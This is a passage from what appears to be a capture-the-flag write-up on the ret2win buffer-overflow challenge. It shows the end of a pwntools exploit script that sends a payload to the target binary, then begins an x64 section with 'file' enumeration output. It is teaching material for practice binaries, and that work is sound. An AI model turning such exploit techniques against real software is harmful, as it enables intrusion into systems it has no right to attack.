 ```python
write('payload', payload)

# Send payload to target
io.sendlineafter(b'>', payload)

# Get flag
io.interactive()
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Result</p></figcaption></figure>

## x64 Exploitation

Here, <mark style="color:yellow;">we will be following a similar methodology, but will be introducing registers and different instructions into the equation because we are attacking a 64-bit binary</mark>!

Stay tuned, you can do it!

### Enumeration

`file`:

{% code overflow="wrap" %}
```
file ret2win
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597, not stripped
```
{% endcode %}
